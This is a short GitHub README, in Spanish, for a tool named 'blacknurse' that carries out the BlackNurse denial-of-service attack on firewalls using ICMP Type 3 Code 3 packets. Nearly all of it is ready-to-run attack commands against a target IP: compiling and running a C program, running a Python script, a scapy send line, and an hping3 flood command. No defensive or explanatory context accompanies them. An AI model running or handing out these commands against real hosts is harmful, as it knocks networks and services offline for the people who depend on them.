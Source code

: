 # blacknurse
Black Nurse DOS Attack Firewall ( ICMP Type 3 Code 3 )

Ejecutar en c:
gcc blacknurse.c -o blacknurse
./blacknurse IP

Ejecutar en Python:
python blacknurse.py IP

Ejecutar con scapy: 
send(IP(dst="1.2.3.4")/ICMP(code=3,type=3))

Ejecutar con hping3
hping3 --icmp -C 3 -K 3 --flood IP
#
# www.hackingyseguridad.com
#

